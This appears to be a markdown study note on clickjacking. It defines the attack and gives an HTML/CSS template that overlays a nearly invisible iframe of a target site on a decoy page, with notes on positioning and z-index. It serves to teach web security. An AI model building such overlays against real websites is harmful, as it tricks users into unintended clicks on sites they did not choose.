 ## Definition
- Interface-based attack  
	- in which a user is tricked into clicking on actionable content on a hidden website 
		- by clicking on some other content in a decoy website

## How to construct
Clickjacking attacks:
- use CSS to create and manipulate layers. 
- The attacker incorporates the target website as:
	- an iframe layer overlaid on the decoy website

An example using the style tag and parameters is as follows:
```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

The target website iframe is positioned:
- within the browser 
	- so that there is a precise overlap of the target action with the decoy website 
		- using appropriate width and height position values.

Absolute and relative position values:
- are used to ensure that the target website accurately overlaps the decoy regardless of:
	- screen size, browser type and platform

The z-index determines:
- the stacking order of the iframe 
- and website layers
